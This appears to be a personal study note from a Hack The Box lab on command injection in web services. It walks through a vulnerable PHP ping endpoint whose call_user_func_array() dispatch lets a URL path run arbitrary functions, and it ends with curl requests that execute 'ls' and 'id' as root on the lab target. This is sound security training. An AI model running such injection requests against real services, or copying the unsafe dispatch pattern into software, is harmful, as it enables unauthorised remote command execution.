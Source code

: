 ```yaml
---
sticker: emoji//1f480
---
```

Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.

You may have come across connectivity-checking web services in router admin panels or even websites that merely execute a ping command towards a website of your choosing.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target service and follow along.

Suppose we are assessing such a connectivity-checking service residing in `http://<TARGET IP>:3003/ping-server.php/ping`. Suppose we have also been provided with the source code of the service.

**Note**: The web service we are about to assess does not follow the web service architectural designs/approaches we covered. It is quite close to a normal web service, though, as it provides its functionality in a programmatic way, and different clients can use it for connectivity-checking purposes.


```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

A function called _ping_ is defined, which takes two arguments _host_url_ip_ and _packets_. The request should look similar to the following. `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`. To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request.

```shell-session
smoothment@htb[/htb]$ sudo tcpdump -i tun0 icmp
 tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
 listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
 11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
 11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
 11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
 11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
 11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
```

- The code also checks if the _packets_'s value is more than 4, and it does that via an array. So if we issue a request such as `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3333`, we're going to get an _Only 1-4 packets!_ error.
- A variable called _cmd_ is then created, which forms the ping command to be executed. Two values are "parsed", _packets_ and _host_url_. [escapeshellarg()](https://www.php.net/manual/en/function.escapeshellarg.php) is used to escape the _host_url_'s value. According to PHP's function reference, _escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. This function should be used to escape individual arguments to shell functions coming from user input. The shell functions include exec(), system() shell_exec() and the backtick operator._ If the _host_url_'s value was not escaped, the below could happen.
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219153637.png)
- The command specified by the _cmd_ parameter is executed with the help of the _shell_exec()_ PHP function.
- If the request method is GET, an existing function can be called with the help of [call_user_func_array()](https://www.php.net/manual/en/function.call-user-func-array.php). The _call_user_func_array()_ function is a special way to call an existing PHP function. It takes a function to call as its first parameter, then takes an array of parameters as its second parameter. This means that instead of `http://<TARGET IP>:3003/ping-server.php/ping/www.example.com/3` an attacker could issue a request as follows. `http://<TARGET IP>:3003/ping-server.php/system/ls`. This constitutes a command injection vulnerability!

You can test the command injection vulnerability as follows.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```


# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250219153716.png)

If we test `id`, we get the following:

```
curl http://10.129.202.133:3003/ping-server.php/system/id

uid=0(root) gid=0(root) groups=0(root)
```

